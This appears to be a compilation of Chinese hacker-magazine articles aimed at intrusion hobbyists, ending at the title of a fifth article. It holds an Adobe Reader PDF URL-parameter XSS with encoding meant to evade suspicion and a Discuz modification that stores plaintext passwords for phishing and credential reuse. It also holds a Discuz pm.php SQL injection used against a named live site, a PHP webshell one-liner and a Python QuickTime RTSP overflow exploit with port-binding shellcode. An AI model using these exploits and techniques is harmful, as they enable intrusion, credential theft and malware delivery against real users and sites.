Adobe Acrobat Reader在打开PDF文件的时候，除了我们通常采用的直接双击打开外，还提供了许多高级选项，比如打开后从第几页显示、显示的比例等，这些选项可以通过外部参数的形式传递给Acrobat Reader，而通过浏览器打开用URL标识的PDF文件一样可以使用这些选项。常见的选项如下表所示。

| 语法 | 作用 |
|---|---|
| Page=pagenum | 指明打开文档时从第几页显示 |
| Zoom=scale | 指明打开文档时的缩放比例 |
| …… | …… |
| Fdf=url | 指明需要导入的FDF表格数据的位置 |

表1 Adobe Acrobat Reader外部参数

这些参数的使用很简单，只要在标识PDF文件的URL后面加上“#”，再按照语法跟上参数就行了。例如打开文档时按照50%的比例显示第四页，我们只要在浏览器的地址栏输入“http://www.hacker.com.cn/doc.pdf#page=4#zoom=50”……

此仅做范例使用，下同即可。当然，大家在自己实验的时候，要把“http://www.hacker.com.cn/doc.pdf”换成一个能用的PDF网址才行。类似这样的选项还有collab、view、pagemode、scrollbar、search、toolbar、statusbar、messages、navpanes、highlight和help等。关于这些选项的详细使用说明，Adobe公司有官方的文档可以参考。

在随本文的附件中我一并给出了，大家可以参考（事实上，我在逆向相关解析模块的时候，发现Adobe的文档对这部分参数有所保留，也就是说和Windows API类似，还有未公布的选项）。这里需要稍加说明的是一个我们比较陌生的选项——FDF（Forms Data Format）。

FDF是基于PDF文件格式的一种表数据组织格式。企业应用场景中经常把PDF中的表导出成FDF文件，并存放于某个服务器中。当打开PDF文件时，Adobe Acrobat Reader会自动到服务器中下载FDF文件并重新导入PDF文件显示给用户，这样可以使得PDF文件中的表格数据永远是实时的新数据，而且可以节省许多存储空间。当然，通过URL打开PDF文件时也可以指定一个需要下载并导入的FDF文件，例如“http://www.hacker.com.cn/doc.pdf#fdf=http://www.hacker.com.cn/doc.fdf”。

浏览器在遇到一个PDF文件时，会调用Adobe Acrobat Reader的插件进行处理。Adobe Acrobat Reader 7.0.0.8及其以下版本的插件在解析URL里“#”号后面的FDF等URL参数时，有逻辑缺陷，可以被攻击者利用。

IE浏览器以ActiveX控件的形式使用pdf.ocx文件进行参数解析，而Mozilla Firefox则以动态链接库的形式使用nppdf32.dll文件，所以在利用这个漏洞的时候，两种主流浏览器有一些细微的差异。在随文提供的资料中，我提供了各个版本的漏洞文件以及打过补丁的文件，有兴趣的朋友可以逆向后详细研究这一模块的逻辑。下面列出比较流行的此漏洞的利用方式，权当抛砖引玉，大家在此基础上可以充分发挥想象，扩大其利用范围。

- 1）会话重定向

#FDF、#XFDF 和 #XML 等参数后面的 URL 会在未经用户允许的情况下被浏览器直接访问，例如“http://www.hacker.com.cn/doc.pdf#FDF=http://www.attack.com”。如果浏览器本身带有漏洞，很有可能通过这样一个 PDF 链接强迫用户访问 Exploit 网页而中网马。此外，还可以向需要的站点传递某些参数，比如“http://www.hacker.com.cn/doc.pdf#FDF=http://www.attack.com/attack.php?param=...”，作为进一步攻击的跳板。

- 2）脚本注入

IE 和 FireFox 竟然都允许在 URL 参数中执行脚本命令，例如在浏览器中输入带有 JavaScript 语句提交命令“http://www.hacker.com.cn/doc.pdf#FDF=javascript:alert('hack defense test')”，参数中的 JavaScript 会被执行，造成典型的 XSS 攻击，如图1所示。


脚本注入的利用方法很多，比如未授权文件下载、未授权网页访问、窃取 Cookie 等。比如“http://www.hacker.com.cn/doc.pdf#FDF=javascript:document.location='file:///C:/path/attack.exe'”就可以实现文件下载的功能，如图2所示。


如果现在你想到Google上随便搜索一个PDF文件的链接做一个攻击用的URL的话，建议不要搞得像上面这样的露骨，应对URL进行部分编码。

例如上例中使用的URL：“file:///E:/test.pdf#fdf=javascript:document.location='file:///c:/windows/notepad.exe'”，我们可以把“document.location='file:///c:/windows/notepad.exe'”编码成“%64%6F%63%75%6D%65%6E%74%2E%6C%6F%63%61%74%69%6F%6E%3D%27%66%69%6C%65%3A%2F%2F%2F%63%3A%2F%77%69%6E%64%6F%77%73%2F%6E%6F%74%65%70%61%64%2E%65%78%65%27”，那么最后做好的含有JavaScript的攻击用的链接如下：

```text
file:///E:/test.pdf#fdf=javascript:%64%6F%63%75%6D%65%6E%74%2E%6C%6F%63%61%74%69%6F%6E%3D%27%66%69%6C%65%3A%2F%2F%2F%63%3A%2F%77%69%6E%64%6F%77%73%2F%6E%6F%74%65%70%61%64%2E%65%78%65%27
```

这样，被怀疑的成分就少了许多。另外，用于URL编码的小工具，我也放在了本文的资料中了。

- 3）浏览器拒绝服务

如果在PDF的URL里出现两个“#”，参数解析模块将进入一个死循环，例如下面的三条语句。

```text
http://www.hacker.com.cn/doc.pdf##qqqqqqqqqqq#
http://www.hacker.com.cn/doc.pdf#&&&&&&&&&#
http://www.hacker.com.cn/doc.pdf############
```

这类URL输入会造成IE和FireFox陷入死循环。

- 4）潜在的溢出利用

我在测试脚本注入时，调用document.write()方法有时会在nppdf32.dll中造成一个内存访问异常，大概是把[ESI,+28]处的内容装入EAX之后在取址时出的错，这是此漏洞的一个潜在溢出。但是由于输入的参数字符串都存在堆区，在我调试的过程中，暂时还没有找到通过外部参数淹没SEH的方法，而且目前为止也没见到相关的POC示例代码，所以是否可以实现有效的溢出，目前尚待讨论。Adobe官方对外部参数漏洞的解释是不能够被成功溢出利用，但是同期发布的另一个安全补丁的说明中讲到，如果通过构造畸形的PDF文件，是有可能获得进程控制权进而控制主机的，CVE和CERT目前发布的漏洞溢出利用信息还处于尚待验证的阶段，并没有给出确认。对于这个漏洞的溢出利用，我们将进一步予以关注，一旦对此潜在的溢出有了可控的方法，我们将会第一时间在黑防上发布出来，与大家共同研究与提高。

适合读者：入侵爱好者

前置知识：PHP

## Discuz也玩钓鱼

文/图 magicland

Discuz论坛大家都耳熟能详了吧？它是一款基于PHP+MySQL环境的论坛。自从2005年12月26日宣布免费以后，其在全国的普及率逐步得到了提升。用百度搜索“Powered by Discuz!”结果已经超过了100,000,000条。目前大家在网上也很少能看到关于Discuz的漏洞，并不像“动网”那样到处都是“洞”。那么，找到一个Discuz论坛后，我们怎么去入侵呢？下面就介绍一下我的方法。

入侵有通过漏洞的，有直接用密码的。Discuz的安全做得比较好，第一条路被堵死了，我们只能通过破解密码取得Admin密码。虽然MD5的密码比较好破解，但熟悉Discuz的人应该知道，安全提示问题就很难被破解了，不，应该是无法破解，所以只能使用万金油——钓鱼这个办法了。

##### 钓鱼的准备工作

钓鱼，顾名思义就是等他来上钩（注册），之后就可以在数据库中找到其密码明文和提示问题的明文了。当某个论坛的Admin到你的论坛去注册并使用了相同的密码，那么恭喜你了，你得到了一个论坛的最高权限。不过对于Discuz来说，即使是Admin也没法在论坛后台上传木马的，SQL语句导出我没有试过，不知道行不行，总之得到了Admin的权限，这个论坛也可以被“毁”得差不多了。对了，Discuz论坛的Admin权限是可以挂马的。

Discuz中有关密码和提示问题的页面一共有4处，分别是用户注册（register.php），如图1所示；用户控制面板更改个人信息（memcp.php），如图2所示；后台有关用户的板块添加用户和修改用户资料（admin文件夹中members.inc.php文件），如图3和图4所示。最后一个是论坛提供的找回密码功能，一般找回密码后都会改密码的，所以忽略。


图1


图2


图3


图4

##### 论坛数据库的改造

数据库的改造虽然简单，但是在改造之前一定要先备份数据库，以免数据库在升级的过程中损坏。也就是在Discuz库中的cdb_members表的字段后面再加上3个字段，分别是passming（密码明文）、pano（提示问题的题号）和pas（提示问题的明文答案），类型都为char(100)，如图5所示。这些既可以在PHPMyAdmin中操作，也可以在Discuz的后台中进行。在升级数据库选项中提交以下语句，数据库就改造完毕了。


图5

```sql
ALTER TABLE `cdb_members` ADD `passming` CHAR(100) NOT NULL,
ADD `pano` CHAR(100) NOT NULL,
ADD `pas` CHAR(100) NOT NULL;
```

##### 论坛脚本的改造

如果大家以前修改过register.php、memcp.php和members.inc.php文件，可以按照下面的代码手动修改该文件。我修改好的文件大家可以在随文资料中找到，下载后直接覆盖原文件即可。注意，最好事先备份好原始文件。

###### 1）register.php 的修改

```php
if (...) {
    // 省略
} else {
    $db->query("INSERT INTO {$tablepre}regips (ip, count, dateline) VALUES ('$onlineip', '1', '$timestamp')");

    $passming = $password; // 密码明文
    $password = md5($password);
    $pano = $questionid;   // 提示问题序号
    $pas = $answer;        // 提示问题答案明文
    $secques = quescrypt($questionid, $answer);
    ...
}
```

```php
// 省略
$db->query("INSERT INTO {$tablepre}members (username, password, secques, gender, adminid, groupid, regip, regdate, lastvisit, lastactivity, posts, credits, extcredits1, extcredits2, extcredits3, extcredits4, extcredits5, extcredits6, extcredits7, extcredits8, email, bday, sigstatus, tpp, ppp, styleid, dateformat, timeformat, pmsound, showemail, newsletter, invisible, timeoffset, passming, pano, pas)
VALUES ('$username', '$password', '$secques', '$gendernew', '0', '$groupinfo[groupid]', '$onlineip', '$timestamp', '$timestamp', '$timestamp', '0', '$initcredits', '$email', '$bday', '$sigstatus', '$tppnew', '$pppnew', '$styleidnew', '$dateformatnew', '$timeformatnew', '$pmsoundnew', '$showemailnew', '$newsletter', '$invisiblenew', '$timeoffsetnew', '$passming', '$pano', '$pas')");
$uid = $db->insert_id();
```

###### 2）memcp.php 的修改

```php
if ($passportstatus) {
    $newpasswadd = '';
    $pano = $questionidnew;
    $pas = $answernew;
    $secquesnew = $questionidnew == -1 ? $discuz_secques : quescrypt($questionidnew, $answernew);
    if ($newpassword || $secquesnew != $discuz_secques) {
        if (md5($oldpassword) != $discuz_pw) {
            showmessage('profile_passwd_wrong', NULL, 'HALTED');
        }
    }
    if ($newpassword) {
        if ($newpassword != addslashes($newpassword)) {
            showmessage('profile_passwd_illegal');
        } elseif ($newpassword != $newpassword2) {
            showmessage('profile_passwd_nomatch');
        }
        $newpsming = $newpassword;
        $newpasswadd = ", password='".md5($newpassword)."'";
    }
}

// 省略
$db->query("UPDATE {$tablepre}members SET secques='$secquesnew', gender='$gendernew', email='$emailnew', styleid='$styleidnew', bday='$bdaynew', showemail='$showemailnew', timeoffset='$timeoffsetnew', tpp='$tppnew', ppp='$pppnew', editormode='$editormodenew', customshow='$customshownew', newsletter='$newsletternew', invisible='$invisiblenew', timeformat='$timeformatnew', ...");
```

```php
...dateformat='$dateformatnew', pmsound='$pmsoundnew', styleid='$styleidnew', sigstatus='$sigstatusnew' $newpasswadd ...
WHERE uid='$discuz_uid');
// 改密码（为了方便写PHP，所以语句单独写了）
if ($newpsming != '') {
  $db->query("UPDATE {$tablepre}members SET passming='$newpsming' WHERE uid='$discuz_uid'");
}
if ($psno != '') {
  $db->query("UPDATE {$tablepre}members SET pano='$pano', pas='$pas' WHERE uid='$discuz_uid'");
}
```

## 3）`members.inc.php` 的修改

```php
$passwordadd = $passwordnew ? ", password='".md5($passwordnew)."'" : '';
$passming = $passwordnew ? ", passming='$passwordnew'" : '';
$secquesadd = $clearquestion ? '' : ", secques=''";
$quest = $clearquestion ? '' : ", pano='', pas=''";
$db->query("UPDATE {$tablepre}members SET gender='$gendernew', email='$emailnew', posts='$postsnew', ... , sigstatus='$sigstatusnew' $passwordadd $secquesadd $passming $quest WHERE uid='$uid'");
```

经过上面三个文件的修改，Discuz论坛的脚本就改造完成了。

## 密码明文的查询

下面给大家做一个注册测试，为了方便大家看密码，我把注册的模板改了一下，如图6和图7所示。密码提示问题的数字和文字的对应如图8所示。本来我想写一个快速查询的程序，但由于考试比较忙没有时间，只好放一放了。

既然没有程序了，那我们就只能用PHPMyAdmin。


打开PHPMyAdmin，进入安装Discuz数据库，然后进入表`cdb_members`就可以浏览到所有用户的明文密码了，如图9所示。


大家可能会问，如果我的会员十分多，比如在一万多人中找一个人怎么办呢？这个简单，我们可以利用PHPMyAdmin中的SQL语句执行。进入安装Discuz的库，点击SQL，之后输入以下命令即可。


```sql
SELECT *
FROM `cdb_members`
WHERE `username` = '你要查询人的名字'
LIMIT 0, 30;
```

## 等值上钩

这个很简单，就是把论坛宣传出去就可以了。一般人在论坛的ID和email的ID都会一样的（除非被别人先注册了），密码也应该是一样的。同样，我们也可以利用社会工程学，结合他的个人资料来破解。我测试了一下，通过获取的明文密码，我成功地登录了一个会员的QQ。

##### 论坛挂马

挂马是很容易的，但是会在后台留下操作记录。Discuz中的挂马有以下几种方式：

- 一是修改模板header.htm，再更新缓存就可以了。
- 二是在某个论坛的简介中加入HTML代码。
- 三是首页广告可以用HTML代码。

这三种方法各有优缺点。改模板的优点是在后台记录中的含义比较含糊，一般管理员看见记录后基本不会理睬，缺点是在论坛风格很多的情况下，每个风格都要改，这样很容易引起管理员的注意。在论坛的简介中挂马的优点是方便，后台记录不容易被发现，但是简介有字数限制，缺点是容易被发现，因为一些管理员经常会改论坛板块的设置。在首页广告挂马的优点也是后台记录不容易被发现，缺点是很多论坛没有广告。大家注意一下，广告不要增加新的，要去改以前的，在上面多加上一句话即可。

以上这三个操作都比较简单，就不在这里详细介绍了。由于我的Discuz论坛没有广告，所以只能用添加新的广告来给大家演示了，如图10、图11和图12所示。

本文到这里就结束了，本意只是给大家提供一个利用Discuz论坛的思路，大家可以在此基础上做一下思维发散，也许你就会有了新的发现呢？另外，本文介绍的方法在Discuz5.0+Mysql5.*+PHP5.*+Windows 2003+IIS 6.0下测试通过。


图10


图11


图12

适合读者：入侵爱好者  
前置知识：PHP

## Discuz! 5.0 pm.php 最新任意漏洞

##### 详细分析与利用


文／图 Cnbird[R.U.C]、爱无言

今天没事在网络上闲逛的时候，看到一个惊人的消息，说Discuz! 5.0有了0Days，并给出了利用程序。仔细地看了一遍作者的利用方法和程序，总体上感觉这个漏洞的利用还是非常简单的，下面我就带大家一起来分析一下这个漏洞的形成和利用方法。存在漏洞的文件是pm.php文件，形成这个漏洞的最主要的原因还是因为变量过滤不严格，导致黑客可以直接进行远程的SQL注入。我测试的Discuz!版本是Discuz! 5.0 SC_GBK版本，其他版本暂未测试。

##### 漏洞分析

在本地架设好Discuz!论坛，注册一个用户cnbird，目的就是拿到自己的Cookie值。漏洞利用程序如图1所示。我先来讲解一下这里该如何填写，免得像我一样的菜鸟第一次一看就蒙了。URL就是我们要填写的有漏洞的主机地址，注意一定要填Discuz!所在的主目录。Hash就是传说中的Cookie的Hash值。Msgto就是信息要发送给谁，这里注意，一定要是存在的用户，不然的话漏洞就不能成功利用了。SQL栏要填写的就是我们构造的SQL注入语句了，后面我们将详细分析这里该如何构造语句。在提交程序之前，我们先用WinsockExpert看看到底发生了什么事。我这里填写的信息如下。


> Cookie的作用，一是可以记录访客的某些信息；二是可以在不同页面之间传递某些变量。

- URL: `http://127.0.0.1/discuz/`
- HASH: `40ec2fd9`
- MSGTO: `admin`
- SQL: `0) union select password,2,0 from cdb_members where uid=1/*`

点击GOGOGO后便出现了如图2所示的结果，同时WinsockExpert也有了如图3所示的结果。我们要仔细看的是这里的Cookie。


```
AJSTAT_ok_times=1; phpbb2mysql_data=...&formhash=40ec2fd9&msgto=admin&subject=aa&message=aa&msgtobuddys%5B%5D=0%29+union+select+password%2C2%2C0+from+cdb_members+where+uid%3D1%2F*...
```

其中最重要的是“msgtobuddys%5B%5D=0%29+union+select+password%2C2%2C0+from+cdb_members+where+uid%3D1%2F*”这部分，懂点SQL注入基础的就能知道，这是群发数组msgtobuddys[]没有过滤而导致的。

接下来我们就可以详细分析漏洞的成因了。打开 `http://127.0.0.1/discuz//pm.php?action=send`，右键查看源代码，搜索“cnbird”可以找到如下代码，这里就是出问题的所在。

```html
<input class="checkbox" type="checkbox" name="msgtobuddys[]" value="1">admin ...
<input class="checkbox" type="checkbox" name="msgtobuddys[]" value="2">cnbird ...
```

下面再看一下pm.php的源代码。我们从代码第189行开始分析，首先看下面的代码。

```php
if(empty($msgto) && is_array($msgtobuddys)) {
    $msgto = $msgtobuddys;
}
```

意思是如果$msgto为空，也就是“发送到”为空同时，msgtobuddys为数组的话，就直接把$msgtobuddys传递给$msgto。再看看第205行开始的代码。

```php
if(is_array($msgtobuddys)) {
    $msgto = array_merge($msgtobuddys, array($msgtoid));
}
```

意思是如果$msgtobuddys为数组的话，就把$msgtobuddys和$msgtoid合并起来。

> `array_merge()` 函数原型为 `array array_merge(array array1 [, array array2 ...])`，用于将一个或多个数组的单元合并起来，一个数组中的值附加在前一个数组的后面，返回作为结果的数组。

我们继续看程序第224～227行的代码。

```php
$uids = $comma = '';
foreach($msgto as $uid) {
    $uids .= $comma.$uid;
    $comma = ',';
}
```

意思是把上面合并以后的数组$msgto重新遍历赋值给$uid。再看程序第230-233行的代码，这是最重要的SQL查询，也就是漏洞出现的地方。

```sql
$query = $db->query("SELECT m.username,mf.ignorepm,
u.maxpmnum FROM {$tablepre}usergroups u,{$tablepre}members m
LEFT JOIN {$tablepre}memberfields mf USING(uid)
WHERE m.uid IN ($uids) AND m.groupid=u.groupid");
```

这是控制群发的一段语句，其中$uids未过滤，而且还用到了“()”，导致我们可以构造联合查询语句实现注入。当语句查询正确时，程序本身的报错使得我们可以得到用户的密码Hash。比如我们构造“0) union select password,2,0 from cdb_members where uid=1/*”语句，就正好可以构成SELECT查询的完整语句，也就是“SELECT m.username,mf.ignorepm,u.maxpmnum FROM {$tablepre}usergroups u,{$tablepre}members m LEFT JOIN {$tablepre}memberfields mf USING(uid) WHERE m.uid IN (0) union select password,2,0 from cdb_members where uid=1/*) AND m.groupid=u.groupid”，其中的“/*”屏蔽了以后的语句，这样就把uid为1的用户的MD5密码显示出来了。图4就是我在本地的phpMyAdmin中作的测试，说明确实是可行的。


图4

## 实例测试

我们在百度里查找“powered by discuz”可以找到相关网页近100,000,000篇，可见Discuz论坛使用之广！我这里选择了http://www.stillneverland.com网站，先注册一个用户，假设叫“lovehaiy”，然后我们来找需要填写的几项内容，下面大家可以边看边实际操作，效果会更好。

首先是“URL”，我们这里就填上“http://www.stillneverland.com”；接着是“Hash”项，它是我们访问论坛时，Cookie系统自动生成的一个数值，我们拖动网页到最底下，可以看到一个叫“清除Cookie”的选项，右键查看其属性，如图5所示。注意看图中画圈的数字，就是我们需要填写的Hash的数值，复制它到漏洞利用程序里的“Hash”选项里。“Msgto”这里只需填上我们自己的用户名就可以了，填上其他的也无所谓，但一定要是真实存在的用户才可以。对于最后一个选项，我们只需更改构造的语句中“uid=”后面的数值就可以了，这个数值就是要被我们破解的用户的论坛uid值。既然我们要得到论坛的最高权限，就找论坛管理员的uid来破解好了。点击“会员”一项，在网页下方会有个“管理员头衔”选项，点击它，会员就会按照管理员头衔来排列了，如图6所示。这里我选择“火死神”这个用户作为破解目标，其uid为4，把它填入我们的利用程序里，完成后，点击“GOGOGO”按钮，随着浏览器上的小地球飞转，我们就可以看到程序报出了火死神的密码Hash。


图5


图6


图7

> 如果此处你得到的密码Hash是15位的怎么办？有2个办法。第一是放弃，再去寻找其他的Discuz论坛吧！第二，如果Hash是16位的，可以考虑补充0~9、a~z中的一位来尝试破解；如果是32位的，放弃吧！

> 获得uid的方法，除了上面说的办法外，如果论坛没有提供“会员”选项怎么办？此时看看论坛是否提供了“统计”功能；如果有的话，其下会有一个“管理团队”的选项，点击进入后，在管理员的ID上点击右键选择“属性”，即可看到uid值。

现在我们只要把得到的Hash密码放到 www.xmd5.com 这个在线破解网站，点击破解，很幸运，我们成功得到了原始密码，如图8所示。如果此处不能破解，大家可以再找其他提供在线破解MD5密码的网站尝试。现在，利用破解出来的密码和用户名，我们试一试能不能登录论坛，并进入网站后台，如图9所示。


图9

“论坛管理 -> 模板编辑”，然后随便挑一个进行编辑，插入我们的一句话木马 `EOT'; <BR>eval($a);<BR>print <<<EOT`，保存就可以得到一个类似 `templates/default/actions.lang.php` 这个路径下的WebShell了，如图10所示，接下来再怎么弄，那就随大家的爱好去做了。


图10


图8

我们成功地进入了论坛管理的后台！现在该做什么呢？当然是上传PHP一句话木马获得WebShell了。这里还是利用后台模板那里，具体的方法是……

好了，看到这里大家一定跃跃欲试了吧？这里提醒一下，Discuz!数据库的表名前缀默认是 `cdb_`，如果要测试的论坛修改了表名前缀怎么办？没关系，因为利用漏洞利用程序你可以使论坛出错，从而自己报出表名，这样就可以看到前缀了，再修改一下注入语句即可。

漏洞分析和利用到这里就算完成了。我也就不再浪费黑防宝典的版面了。最后再给大家说一下如何修补这个漏洞。最简单的方法就是把群发功能去掉，或者把 `$uids` 过滤一下再带入SQL查询。当然，最好的方法还是打官方的补丁了，这样才是最好的习惯呀。

适合读者：入侵爱好者、溢出爱好者

前置知识：汇编语言、缓冲区溢出基本原理、Python

#### Apple QuickTime RTSP 解析漏洞分析与利用

文/图 张东辉 袁野


2007年1月大家迎来的是新年的欢乐，而Apple却迎来了一次沉重的打击，其安全缺陷和详细攻击代码的公开拉开了“苹果缺陷月”项目的大幕。该项目的目标是1月份期间每天公布苹果软件中的一个缺陷。“苹果缺陷月”项目代号为LMH的安全研究人员说，RTSP解析漏洞的危险在于黑客会危害用户的系统，他们可以以用户的权限执行任意操作。黑客可以通过Flash、链接、QTL文件，以及其它能够启动QuickTime的方法触发攻击。

据负责“苹果缺陷月”项目的网站称，QuickTime缺陷与其处理Real Time Streaming Protocol（RTSP）的方式有关。黑客可以在恶意的QuickTime文件中制作一个特别的RTSP串，从而触发缓冲区溢出缺陷。这一缺陷影响在Mac OSX和Windows上运行的QuickTime 7.1.3，以前版本也可能会受到影响。Secunia和法国安全事故反应团队（FrSIRT）对QuickTime缺陷的评级分别为“极度危险”和“危急”。

##### 漏洞试验与分析

初步了解了这个漏洞的背景后，我们该如何对这个漏洞进行分析呢？还是先在自己的电脑上做个试验吧。我的测试环境如下。

| 基本配置 | IBM T23笔记本 |
|---|---|
| 操作系统 | Windows XP Pro SP2 |
| Apple QuickTime版本 | Apple QuickTime 6.5.2 |
| Python版本 | Python 2.5 |

事实上，导致QuickTime最终溢出的直接原因是恶意的RTSP URL字符串。从获得的POC代码，我们可以粗略地理解为，如果本地安装了QuickTime软件，无论是否正在运行，只要访问类似“rtsp://任意字符串+冒号+[若干字节填充和负载]”的RTSP URL，就会发生QuickTime的栈溢出。

只要是这样的RTSP URL都能让QuickTime溢出，Apple真该好好反省反省了！不过上面的“若干字节填充和负载”想必大家都看不太明白吧？

首先我们构造一个如上所说的RTSP URL字符串，并把这个字符串写在QTL文件中。QTL实际上是QuickTime可以解析的XML文件格式。从http://www.milw0rm.org/网站我们可以得到这个文件的XML模板，代码如下。

```xml
<?xml version="1.0"?>
<quicktime type="application/x-quicktime-media-link"/>
<embed autoplay="true" moviename="test" qtnext="test" type="video/quicktime" src="..." />
```

为了方便生成这个QTL文件，并便于修改和测试，我使用Python脚本来实现。程序如下。

```python
import sys
# alpha numeric port bind shellcode from metasploit;
# binds shell to port 4444
shellcode = "..."

def CreateQTL():
    # 溢出后，将返回地址改为 shell32.dll 中的某个 call ECX 指令地址
    JMPecx = "..."
    EAXvalue = "..."
    QTL = "<?xml version=\"1.0\"?>\n"
    QTL += "<quicktime type=\"application/x-quicktime-media-link\"/>\n"
    QTL += "<embed autoplay=\"true\" moviename=\"test\" qtnext=\"test\" type=\"video/quicktime\" src=\"rtsp://...\" />\n"
    QTL += "\x90"*255 + JMPecx + "\x90"*12 + EAXvalue + "\x90"*532 + shellcode
    QTL += "\"/>\n"
```

```python
fd = open('./exp.qtl', 'w')
fd.write(QTL)
fd.close()
if __name__ == '__main__':
    CreateQTL()
```

通过这段Python脚本，我们就可以方便灵活地生成QTL文件了。这段程序是我边逆向分析边试验出的结果。在Windows XP系统下，只要安装了QuickTime 6.5.2，都可以测试通过。溢出后，系统将被悄无声息地打开4444端口，远程计算机通过Telnet的方式连接这个4444端口，就可以得到目标主机的系统Shell。

下面我们来看看QuickTime到底是如何一步步走向溢出，又从溢出走向ShellCode的成功执行的。

- 1. 冒号后的字符串未经长度检查直接进栈

当QuickTime读取完上面的QTL文件后，会把冒号后面的字符串放在新开辟的堆区，在我机器上的地址是00C73EA0，长度正好是冒号后面所有字符串的长度（000005ED）。当QuickTime开始解析QTL文件时，会调用如下函数，并传入三个参数，其中两个正好是上面的00C73EA0和000005ED，即冒号后面的字符串在堆中的首址和长度，第三个参数是一个堆栈地址。

```asm
sub_66868C20 proc near
arg_0 = dword ptr 4
arg_4 = dword ptr 8
arg_8 = dword ptr 0Ch
mov eax, [esp+arg_8]
mov ecx, [esp+arg_0]
mov edx, [esp+arg_4]
push eax        ; size_t 000005ED
push ecx        ; void * 00C73EA0
push edx        ; void * 0013EA81
call _memcpy
add esp, 0Ch
retn
sub_66868C20 endp
```

从这个函数可以清晰地看出，其目的是将冒号后的所有字符串拷贝到栈区。我们知道，栈区是一个很敏感的内存区域，稍有不慎就会淹没返回地址，导致发生溢出。而且这里拷贝之前并没有进行长度检查，这就意味着如果开辟的栈帧空间没有冒号后字符串长度大的话，一定会发生溢出。为此，我们需要考察开辟的栈帧空间到底有多大。下面这段代码是最后发生溢出时的函数。

```asm
66EB8320  81EC 18010000    SUB ESP,118
; 开辟栈空间大小 = 118h
```

```asm
66EB8326  32C0            XOR AL,AL
66EB8328  53              PUSH EBX
...
66EB844C  8B8424 38010000 MOV EAX,DWORD PTR SS:[ESP+138]
66EB8453  85C0            TEST EAX,EAX
66EB8455  74 05           JE SHORT QuickT_D...
66EB8457  2BDF            SUB EBX,EDI
66EB8459  4B              DEC EBX
66EB845A  8918            MOV DWORD PTR DS:[EAX],EBX
66EB845C  B0 01           MOV AL,1
66EB845E  5F              POP EDI
66EB845F  5E              POP ESI
66EB8460  5D              POP EBP
66EB8461  5B              POP EBX
66EB8462  81C4 18010000   ADD ESP,118
66EB8468  C3              RETN
```

从66EB8320和66EB8462这两句可以看出，这个栈帧大小为118h（280字节），其中参数有6个，占用24个字节，另外冒号也会被拷贝进来，冒号占用1个字节。这样要想淹没返回地址，只需要再多拷贝280-24-1=255个字节即可，这样冒号后面的最后4个字节就将成为新的返回地址。

- 2. 玩JMP EDI还是玩JMP ECX

公布出来的POC代码，玩的是JMP EDI，可是我测试的这个版本的QuickTime好像不能这样玩，因为在上面函数返回之前要POP EDI，难以预料EDI最终的值。事实上，7.1.3版本POP出来的EDI正好是冒号之前字符串在内存中的地址，但是在6.5.2版的QuickTime中POP出来的EDI却始终为0，所以没法玩JMP EDI。

但是天无绝人之路，通过仔细观察了EAX、EBX、ECX、EDX、EDI、ESI、ESP和EBP这几个寄存器，我发现了一个有趣的现象，ECX寄存器的值一直指向栈区，并且处于上面提到的返回地址下方，相隔548个字节。这意味着如果把上面冒号后面的字符串从259个字节增加到807个字节，并从第808个字节开始写ShellCode，然后把上面的返回地址写成一个JMP ECX指令所在的内存地址，则冒号后面的URL格式将会如下：

| return | shellcode(>=) |
|---|---|
| `\x90*255 + JMPecx + \x90*548 + shellcode` | shellcode |

那么，这样天衣无缝的URL字符串就应该可以让QuickTime溢出并执行我们的ShellCode，而且这个ShellCode想写多长就写多长，因为程序中根本没有对此冒号后的URL进行检查。

- 3. 绕过EAX的阻碍

上面总结出来的冒号后的URL格式，通过试验并没有成功，原因是那个函数中有个小小的阻碍，这个阻碍与EAX有关。其中涉及到的两条指令如下。

```asm
66EB844C  8B8424 38010000  MOV EAX,DWORD PTR SS:[ESP+138]
66EB845A  8918               MOV DWORD PTR DS:[EAX],EBX
```

从这两条指令可以看出，它实际上是把栈中的“SS:[ESP+138]”双字写入EAX寄存器中，然后把EBX的双字写入EAX所指向的内存。绕过这两条指令，首先要求“SS:[ESP+138]”这个双字数据必须是一个有效的内存地址，其次这个地址必须可写。

经过我的研究，这个“SS:[ESP+138]”正好处于我们构造的URL中，在返回地址的下方，相隔12个字节。这一点确实关键，否则我们无法控制这个值，也就没办法绕过这个阻碍！我选择了QuickTime开辟的一个可读写的内存单元地址：“\x54\x60\xfd\x7f”，这样上面的URL格式就有了如下的修改版。

```python
# ---- return for EAX value ---- shellcode(*)
"\x90"*255 + "\x90"*12 + "\x54\x60\xfd\x7f" + "\x90"*532 + shellcode
```

经过以上的分析，我们可以用最初的那段程序来概括。总之，QuickTime这个RTSP解析漏洞的根本原因是对冒号后面部分的URL字符串处理不妥当，连长度都没有检查就直接往栈内拷贝，这一点确实比较危险，同时也给ShellCode的编写减轻了很大的压力。

##### 漏洞利用之远程攻击

通过上面的分析，我们可以看出这是一个可被间接式攻击利用的漏洞。也就是说，只要能诱使攻击目标激活类似上面格式的RTSP协议的URL，无论是QTL文件方式，还是网页连接方式，或者通过JavaScript方式，都可以让一个安装了QuickTime软件（7.1.3版本以下）的计算机执行任意代码。下面我以打开目标主机4444端口的ShellCode为例，演示QTL文件攻击过程。

本文最初的程序就可以生成此方式攻击需要的QTL文件，这个恶意文件可以通过多种方式散播出去，例如U盘隐藏+autorun.inf形式、电子邮件、文件传输等。这里我们假设该文件已经到达目标主机，并成功诱使用户打开了这个文件。如果这个QTL文件写得足够聪明的话，可能用户不会察觉有什么异常现象，然而他的系统却已经被悄悄地打开了4444端口。

如图1和图2所示。4444端口打开后，远程的任何一台主机就可以使用Telnet方式连接这个端口，并且拿到Shell执行权，如图3所示。


##### 总结

通过这次的漏洞分析和利用实验，我发现QuickTime 7.1.3版本以下都存在这个RTSP URL解析漏洞，但是玩法各有千秋，有所不同！本文中的程序在Windows XP SP2下测试6.5.2版QuickTime可以通过，如果是其他版本的QuickTime，例如7.1.3版，可能要涉及到堆溢出，而不是本文的JMP ECX栈溢出。

此漏洞仅是“苹果漏洞月”中的一个漏洞，但是危害性比较大。试想一下，你不经意间点开的一个链接，或打开的一个QTL文件，甚至是访问的一个网页，都有可能会利用这个漏洞向你实施攻击，在你的机器上执行任意程序，比如加个用户、开个后门、种个木马、格个硬盘之类的……总之，希望大家以后能多多“注意安全”，不断学习，不断进步！

适合读者：入侵爱好者，溢出爱好者

前置知识：汇编语言，缓冲区溢出基本原理

#### 防火墙，你该如何信任它？

## 瑞星防火墙畸形规则文件溢出漏洞0Day

○ 文/图 爱无言


